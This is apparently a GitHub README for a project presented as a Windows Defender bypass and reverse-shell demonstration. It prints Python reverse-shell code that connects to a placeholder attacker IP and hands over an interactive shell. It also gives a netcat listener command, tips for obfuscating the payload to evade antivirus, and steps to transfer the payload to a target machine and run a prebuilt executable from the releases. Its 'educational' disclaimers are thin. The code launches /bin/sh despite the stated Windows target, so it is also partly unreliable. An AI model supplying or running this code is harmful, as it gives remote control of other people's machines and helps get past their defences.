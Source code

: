 # Windows Defender Bypass: A Reverse Shell Demonstration

![Windows Defender](https://img.shields.io/badge/Windows%20Defender-Bypass-blue?style=for-the-badge)

Welcome to the **Windows Defender** repository! This project demonstrates how to build a reverse shell while bypassing Windows Defender. It is intended for educational purposes only. Understanding these concepts can help you improve your cybersecurity skills and awareness.

## Table of Contents

- [Introduction](#introduction)
- [Topics Covered](#topics-covered)
- [Getting Started](#getting-started)
- [Building the Reverse Shell](#building-the-reverse-shell)
- [Executing the Payload](#executing-the-payload)
- [Usage](#usage)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)
- [Releases](#releases)

## Introduction

In the world of cybersecurity, understanding how to defend against threats is as crucial as knowing how they operate. This repository focuses on demonstrating a reverse shell and its capabilities while navigating around Windows Defender. 

A reverse shell allows an attacker to gain remote access to a machine, which can be useful for penetration testing or educational purposes. This project emphasizes the importance of understanding both offensive and defensive security measures.

## Topics Covered

This repository covers a range of topics relevant to cybersecurity professionals and enthusiasts:

- Blue Team and Red Team dynamics
- Bypassing antivirus software, specifically Windows Defender
- Cybersecurity awareness and education
- Obfuscation techniques for strings
- Windows reverse engineering
- Building and executing reverse shells on Windows 11

## Getting Started

To get started with this project, you will need to have a basic understanding of programming and cybersecurity principles. This project is built primarily for educational purposes, and you should use it responsibly.

### Prerequisites

- Basic knowledge of programming languages such as Python or C#
- Familiarity with Windows operating systems, particularly Windows 11
- Understanding of networking concepts

### Installation

Clone the repository to your local machine:

```bash
git clone https://github.com/Blueray999/Windows-Defender.git
```

Navigate into the directory:

```bash
cd Windows-Defender
```

## Building the Reverse Shell

The reverse shell can be built using various programming languages. Below is a simple example using Python. 

### Example Code

```python
import socket
import subprocess
import os

def reverse_shell():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("YOUR_IP_ADDRESS", YOUR_PORT))
    os.dup2(s.fileno(), 0)  # stdin
    os.dup2(s.fileno(), 1)  # stdout
    os.dup2(s.fileno(), 2)  # stderr
    p = subprocess.call(["/bin/sh", "-i"])

if __name__ == "__main__":
    reverse_shell()
```

### Important Note

Replace `YOUR_IP_ADDRESS` and `YOUR_PORT` with your own values. 

### Obfuscation Techniques

To bypass Windows Defender, you may want to obfuscate your code. Here are some methods:

1. **String Encoding**: Encode strings in base64 or other formats.
2. **Control Flow Alteration**: Change the order of operations in your code.
3. **Using External Libraries**: Incorporate libraries that can help hide your intentions.

## Executing the Payload

Once you have built your reverse shell, you will need to execute the payload. Ensure that your listener is set up on your attacking machine.

### Setting Up a Listener

You can use tools like `netcat` to listen for incoming connections:

```bash
nc -lvnp YOUR_PORT
```

### Running the Payload

Transfer the payload to the target machine and execute it. You can download the executable from the [Releases section](https://github.com/Blueray999/Windows-Defender/releases) and run it.

## Usage

This repository serves as a learning tool. Use the techniques and code examples responsibly. Always obtain permission before testing any security measures on a network or system.

### Example Scenarios

- **Penetration Testing**: Use this knowledge to test the security of your own systems.
- **Educational Purposes**: Learn how attackers might exploit vulnerabilities to improve your defenses.

## Contributing

Contributions are welcome! If you have ideas or improvements, feel free to fork the repository and submit a pull request. Please ensure that your contributions align with the educational purpose of this project.

### Guidelines

- Keep your code clean and well-documented.
- Add comments to explain complex logic.
- Ensure that your contributions do not promote malicious behavior.

## License

This project is licensed under the MIT License. See the LICENSE file for more details.

## Contact

For any questions or inquiries, feel free to reach out:

- GitHub: [Blueray999](https://github.com/Blueray999)
- Email: your-email@example.com

## Releases

You can find the latest releases of this project in the [Releases section](https://github.com/Blueray999/Windows-Defender/releases). Download the necessary files and execute them responsibly.

## Conclusion

Understanding how to bypass security measures like Windows Defender is crucial for both offensive and defensive security roles. This repository aims to provide a foundational understanding of reverse shells and their implications in cybersecurity. Always use this knowledge for ethical purposes and contribute to a safer digital environment.